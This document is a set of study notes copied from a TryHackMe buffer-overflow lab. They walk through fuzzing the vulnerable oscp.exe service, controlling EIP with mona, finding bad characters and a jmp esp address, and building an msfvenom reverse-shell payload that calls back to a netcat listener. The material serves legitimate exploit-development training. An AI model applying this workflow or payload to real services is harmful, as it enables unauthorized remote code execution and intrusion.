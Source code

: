 ### REFERENCE - Notes copied THM Buffer overflow room - https://tryhackme.com/room/bufferoverflowprep


### Mona Configuration

> The mona script has been preinstalled, however to make it easier to work with, you should configure a working folder using the following command, which you can run in the command input box at the bottom of the Immunity Debugger window:
````
!mona config -set workingfolder c:\mona\%p
````
### Fuzzing
> Create a file on your Kali box called fuzzer.py with the following contents:
````
import socket, time, sys

ip = "MACHINE_IP"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
````

> Run the fuzzer.py script using python: python fuzzer.py

> The fuzzer will send increasingly long strings comprised of As (up to 3000). If the fuzzer crashes the server with one of the strings, you should see an error like: "Could not connect to MACHINE_IP:1337". Make a note of the largest number of bytes that were sent.

#### Crash Replication & Controlling EIP

> Create another file on your Kali box called exploit.py with the following contents:
````
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
````

> Run the following command to generate a cyclic pattern of a length 400 bytes longer that the string that crashed the server (change the -l value to this):
````
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
````

> Copy the output and place it into the payload variable of the exploit.py script.

> On Windows, in Immunity Debugger, re-open the oscp.exe again using the same method as before, and click the red play icon to get it running. You will have to do this prior to each time we run the exploit.py (which we will run multiple times with incremental modifications).

> On Kali, run the modified exploit.py script: python exploit.py

> The script should crash the oscp.exe server again. This time, in Immunity Debugger, in the command input box at the bottom of the screen, run the following mona command, changing the distance to the same length as the pattern you created:

````
!mona findmsp -distance 600
````
> Mona should display a log window with the output of the command. If not, click the "Window" menu and then "Log data" to view it (choose "CPU" to switch back to the standard view).

> In this output you should see a line which states:
````
EIP contains normal pattern : ... (offset XXXX)
````
> Update your exploit.py script and set the offset variable to this value (was previously set to 0). Set the payload variable to an empty string again. Set the retn variable to "BBBB".

> Restart oscp.exe in Immunity and run the modified exploit.py script again. The EIP register should now be overwritten with the 4 B's (e.g. 42424242).

#### Finding Bad Characters

> Generate a bytearray using mona, and exclude the null byte (\x00) by default. Note the location of the bytearray.bin file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be C:\mona\oscp\bytearray.bin).
````
!mona bytearray -b "\x00"
````
> Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \x01 to \xff:
````
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()
````
> Update your exploit.py script and set the payload variable to the string of bad chars the script generates.

> Restart oscp.exe in Immunity and run the modified exploit.py script again. Make a note of the address to which the ESP register points and use it in the following mona command:
````
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
````
> A popup window should appear labelled "mona Memory comparison results". If not, use the Window menu to switch to it. The window shows the results of the comparison, indicating any characters that are different in memory to what they are in the generated bytearray.bin file.

> Not all of these might be badchars! Sometimes badchars cause the next byte to get corrupted as well, or even effect the rest of the string.

> The first badchar in the list should be the null byte (\x00) since we already removed it from the file. Make a note of any others. Generate a new bytearray in mona, specifying these new badchars along with \x00. Then update the payload variable in your exploit.py script and remove the new badchars as well.

> Restart oscp.exe in Immunity and run the modified exploit.py script again. Repeat the badchar comparison until the results status returns "Unmodified". This indicates that no more badchars exist.

#### Finding a Jump Point

> With the oscp.exe either running or in a crashed state, run the following mona command, making sure to update the -cpb option with all the badchars you identified (including \x00):
````
!mona jmp -r esp -cpb "\x00"
````
> This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window (use the Window menu to switch to it if needed).

> Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

#### Generate Payload

> Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with all the badchars you identified (including \x00):
````
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py
````
> Copy the generated python code and integrate it into your exploit.py script, e.g. by setting the payload variable equal to the buf variable from the code.

#### Prepend NOPs

> Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:
````
padding = "\x90" * 16

````
> Exploit!

> With the correct prefix, offset, return address, padding, and payload set, you can now exploit the buffer overflow to get a reverse shell.

> Start a netcat listener on your Kali box using the LPORT you specified in the msfvenom command (4444 if you didn't change it).

> Restart oscp.exe in Immunity and run the modified exploit.py script again. Your netcat listener should catch a reverse shell!
